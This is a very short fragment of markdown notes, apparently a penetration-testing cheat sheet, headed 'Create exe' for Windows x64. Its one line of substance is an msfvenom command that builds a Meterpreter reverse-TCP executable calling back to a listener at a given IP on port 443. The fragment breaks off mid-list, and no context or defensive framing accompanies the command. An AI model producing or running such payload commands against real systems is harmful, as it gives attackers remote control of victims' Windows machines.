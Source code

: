 # Create exe
  - Windows x64
    ~~~
    msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=10.11.0.96 LPORT=443 -f exe -o reverse.ex
    ~~~
  - 
